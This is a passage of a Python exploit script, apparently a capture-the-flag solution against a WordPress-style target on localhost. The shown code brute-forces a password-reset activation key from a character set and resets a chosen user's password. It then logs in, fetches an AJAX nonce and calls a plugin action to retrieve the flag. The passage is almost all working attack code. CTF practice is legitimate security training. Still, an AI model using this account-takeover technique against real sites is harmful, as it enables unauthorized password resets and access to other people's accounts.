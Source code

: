 ```python
        print(f'[*] Resetting password for user "{self.username}"...')
        for key in self.CHARACTER_SET:
            print(f'[*] Trying key "{key}"...')
            getParameters = f'&login={self.username}&key={key}'
            self.session.get(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD}{getParameters}')
            
            bodyData = {
                'pass1': self.password,
                'pass2': self.password,
                'rp_key': key
            }
            response = self.session.post(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT_RESET_PASSWORD}',
                              data=bodyData)
            isCorrectKey = True if 'Your password reset link appears to be invalid.' not in response.text else False
            if not isCorrectKey:
                continue

            print(f'[+] Found the correct password reset activation key "{key}"!')
            print(f'[+] User {self.username}\'s password has been reset to "{self.password}"')
            break

    def login(self):
        print(f'[*] Logging in as user "{self.username}"...')
        bodyData = {
            'log': self.username,
            'pwd': self.password
        }
        self.session.post(f'{self.baseUrl}{self.LOGIN_PAGE_ENDPOINT}',
                          data=bodyData)
        print(f'[+] Logged in as user "{self.username}"')

    def getValidNonce(self):
        print('[*] Getting a valid nonce...')
        response = self.session.get(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_GET_LATEST_POSTS}')
        self.nonce = response.json()['data']['nonce']

        print(f'[+] Valid nonce: "{self.nonce}"')

    def getFlag(self):
        print(f'[*] Getting the flag with nonce "{self.nonce}"...')
        nonceParameter = f'&nonce={self.nonce}'
        response = self.session.get(f'{self.baseUrl}{self.AJAX_ENDPOINT}{self.AJAX_ACTION_PATCHSTACK_FLAGGER}{nonceParameter}')

        flag = response.json()['data']['value']
        print(f'[+] We got the flag: "{flag}"')


    def solve(self):
        self.createNewUser()
        self.generateActivationKey()
        self.resetPassword()

        self.login()
        self.getValidNonce()
        self.getFlag()

if __name__ == '__main__':
    baseUrl = 'http://localhost:8686' # change this URL if needed
```
